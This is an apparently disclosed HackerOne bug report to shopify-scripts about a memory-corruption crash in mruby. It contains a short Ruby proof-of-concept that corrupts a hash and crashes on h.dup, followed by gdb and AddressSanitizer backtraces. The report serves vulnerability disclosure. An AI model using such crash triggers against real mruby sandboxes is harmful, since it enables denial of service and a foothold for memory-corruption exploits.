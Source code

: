 # SIGABRT - in free

## Report Details
- **Report ID**: 216725
- **URL**: https://hackerone.com/reports/216725
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-28T16:31:46.384Z
- **Disclosed**: 2017-05-13T21:28:42.676Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as free.rb):

	a=[]
	h={""=>0}
	h[[a,"h00000000h[0000]00=0000000
	0000h[t]00000=00t0000
	0000h[000]000=000000
	00000"]]=0
	a[0]="z"
	h[[a,"h00000000h[0000]00=0000000
	0000h[t]00000=00t0000
	0000h[000]000=000000
	00000"]]=0
	h.dup

Backtrace - mirb
-------------------

	x@x:~/Desktop/test/mruby/bin$ gdb -q ./mirb
	rReading symbols from ./mirb...done.
	(gdb) r free.rb 
	Starting program: /home/x/Desktop/test/mruby/bin/mirb free.rb
	mirb - Embeddable Interactive Ruby Shell

	 => []
	 => {""=>0}
	 => 0
	 => "z"
	 => 0
	*** Error in `/home/x/Desktop/test/mruby/bin/mirb': malloc(): memory corruption: 0x000000000071ccd0 ***

	Program received signal SIGABRT, Aborted.
	0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	56	../nptl/sysdeps/unix/sysv/linux/raise.c: No such file or directory.
	(gdb) bt
	#0  0x00007ffff7744f79 in __GI_raise (sig=sig@entry=6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:56
	#1  0x00007ffff7748388 in __GI_abort () at abort.c:89
	#2  0x00007ffff77821d4 in __libc_message (do_abort=1, fmt=fmt@entry=0x7ffff7890a10 "*** Error in `%s': %s: 0x%s ***\n") at ../sysdeps/posix/libc_fatal.c:175
	#3  0x00007ffff778fd76 in malloc_printerr (ptr=0x71ccd0, str=0x7ffff788cb84 "malloc(): memory corruption", action=<optimized out>) at malloc.c:4996
	#4  _int_malloc (av=0x7ffff7acd760 <main_arena>, bytes=32) at malloc.c:3447
	#5  0x00007ffff77915f0 in __GI___libc_malloc (bytes=32) at malloc.c:2891
	#6  0x000000000041458b in mrb_default_allocf (mrb=0x6b0010, p=0x0, size=32, ud=0x0) at /home/x/Desktop/test/mruby/src/state.c:60
	#7  0x00000000004102bb in mrb_realloc_simple (mrb=0x6b0010, p=0x0, len=32) at /home/x/Desktop/test/mruby/src/gc.c:201
	#8  0x000000000041033d in mrb_realloc (mrb=0x6b0010, p=0x0, len=32) at /home/x/Desktop/test/mruby/src/gc.c:215
	#9  0x0000000000410409 in mrb_malloc (mrb=0x6b0010, len=32) at /home/x/Desktop/test/mruby/src/gc.c:236
	#10 0x0000000000425ab5 in ary_new_capa (mrb=0x6b0010, capa=2) at /home/x/Desktop/test/mruby/src/array.c:31
	#11 0x0000000000425af8 in mrb_ary_new_capa (mrb=0x6b0010, capa=2) at /home/x/Desktop/test/mruby/src/array.c:41
	#12 0x000000000042b100 in mrb_hash_values (mrb=0x6b0010, hash=...) at /home/x/Desktop/test/mruby/src/hash.c:792
	#13 0x00000000004070bb in mrb_vm_exec (mrb=0x6b0010, proc=0x6b5da0, pc=0x473e90 <mrblib_irep+11992>) at /home/x/Desktop/test/mruby/src/vm.c:1259
	#14 0x000000000040542c in mrb_vm_run (mrb=0x6b0010, proc=0x6b5c80, self=..., stack_keep=2) at /home/x/Desktop/test/mruby/src/vm.c:823
	#15 0x000000000040d7c1 in mrb_run (mrb=0x6b0010, proc=0x6b5c80, self=...) at /home/x/Desktop/test/mruby/src/vm.c:2603
	#16 0x0000000000404550 in mrb_funcall_with_block (mrb=0x6b0010, self=..., mid=43, argc=0, argv=0x7fffffffc780, blk=...) at /home/x/Desktop/test/mruby/src/vm.c:451
	#17 0x0000000000403dca in mrb_funcall_with_block (mrb=0x6b0010, self=..., mid=43, argc=0, argv=0x7fffffffc780, blk=...) at /home/x/Desktop/test/mruby/src/vm.c:354
	#18 0x00000000004045ef in mrb_funcall_argv (mrb=0x6b0010, self=..., mid=43, argc=0, argv=0x7fffffffc780) at /home/x/Desktop/test/mruby/src/vm.c:461
	#19 0x0000000000403cc2 in mrb_funcall (mrb=0x6b0010, self=..., name=0x46be16 "inspect", argc=0) at /home/x/Desktop/test/mruby/src/vm.c:339
	#20 0x0000000000401e4a in p (mrb=0x6b0010, obj=..., prompt=1) at /home/x/Desktop/test/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:92
	#21 0x0000000000402c95 in main (argc=2, argv=0x7fffffffdf48) at /home/x/Desktop/test/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:564
	
Clang - mirb
-------------------

	x@x:~/Desktop/test/mruby/bin$ ASAN_SYMBOLIZER_PATH=//usr/lib/llvm-3.8/bin/llvm-symbolizer ../../clang/mruby/bin/mirb free.rb 
	mirb - Embeddable Interactive Ruby Shell

	 => []
	 => {""=>0}
	 => 0
	 => "z"
	 => 0
	 => {""=>0, nil=>nil}
	=================================================================
	==28828==ERROR: AddressSanitizer: attempting free on address which was not malloc()-ed: 0x60300000a420 in thread T0
		#0 0x4c4590 in free (/home/x/Desktop/test/clang/mruby/bin/mirb+0x4c4590)
		#1 0x506a6b in mrb_default_allocf /home/x/Desktop/test/clang/mruby/src/state.c:56:5
		#2 0x50217c in mrb_free /home/x/Desktop/test/clang/mruby/src/gc.c:268:3
		#3 0x502683 in obj_free /home/x/Desktop/test/clang/mruby/src/gc.c:778:7
		#4 0x5023eb in free_heap /home/x/Desktop/test/clang/mruby/src/gc.c:384:9
		#5 0x5027bc in mrb_gc_destroy /home/x/Desktop/test/clang/mruby/src/gc.c:393:3
		#6 0x507241 in mrb_close /home/x/Desktop/test/clang/mruby/src/state.c:253:3
		#7 0x4f31d5 in main /home/x/Desktop/test/clang/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:581:3
		#8 0x7f9acc512ec4 in __libc_start_main /build/buildd/eglibc-2.19/csu/libc-start.c:287
		#9 0x41a575 in _start (/home/x/Desktop/test/clang/mruby/bin/mirb+0x41a575)

	0x60300000a420 is located 0 bytes inside of 14-byte region [0x60300000a420,0x60300000a42e)
	==28828==AddressSanitizer CHECK failed: /build/llvm-toolchain-3.8-mC_dbv/llvm-toolchain-3.8-3.8/projects/compiler-rt/lib/asan/asan_allocator.cc:667 "((res.trace)) != (0)" (0x0, 0x0)
		#0 0x4cde7d in __asan::AsanCheckFailed(char const*, int, char const*, unsigned long long, unsigned long long) (/home/x/Desktop/test/clang/mruby/bin/mirb+0x4cde7d)
		#1 0x4d3b23 in __sanitizer::CheckFailed(char const*, int, char const*, unsigned long long, unsigned long long) (/home/x/Desktop/test/clang/mruby/bin/mirb+0x4d3b23)
		#2 0x41b546 in __asan::AsanChunkView::GetAllocStack() (/home/x/Desktop/test/clang/mruby/bin/mirb+0x41b546)
		#3 0x4c891d in __asan::DescribeHeapAddress(unsigned long, unsigned long) (/home/x/Desktop/test/clang/mruby/bin/mirb+0x4c891d)
		#4 0x4cacc5 in __asan::ReportFreeNotMalloced(unsigned long, __sanitizer::BufferedStackTrace*) (/home/x/Desktop/test/clang/mruby/bin/mirb+0x4cacc5)
		#5 0x41f749 in __asan::asan_free(void*, __sanitizer::BufferedStackTrace*, __asan::AllocType) (/home/x/Desktop/test/clang/mruby/bin/mirb+0x41f749)
		#6 0x4c456c in free (/home/x/Desktop/test/clang/mruby/bin/mirb+0x4c456c)
		#7 0x506a6b in mrb_default_allocf /home/x/Desktop/test/clang/mruby/src/state.c:56:5
		#8 0x50217c in mrb_free /home/x/Desktop/test/clang/mruby/src/gc.c:268:3
		#9 0x502683 in obj_free /home/x/Desktop/test/clang/mruby/src/gc.c:778:7
		#10 0x5023eb in free_heap /home/x/Desktop/test/clang/mruby/src/gc.c:384:9
		#11 0x5027bc in mrb_gc_destroy /home/x/Desktop/test/clang/mruby/src/gc.c:393:3
		#12 0x507241 in mrb_close /home/x/Desktop/test/clang/mruby/src/state.c:253:3
		#13 0x4f31d5 in main /home/x/Desktop/test/clang/mruby/mrbgems/mruby-bin-mirb/tools/mirb/mirb.c:581:3
		#14 0x7f9acc512ec4 in __libc_start_main /build/buildd/eglibc-2.19/csu/libc-start.c:287
		#15 0x41a575 in _start (/home/x/Desktop/test/clang/mruby/bin/mirb+0x41a575)

System information
-------------------

	SHA hash - 051e40c0493f2de332f5439e3230c9fe6958bf1a
	Linux 14.04 x86_64
	gcc version 4.8.4
	

## Attachments
- free.rb
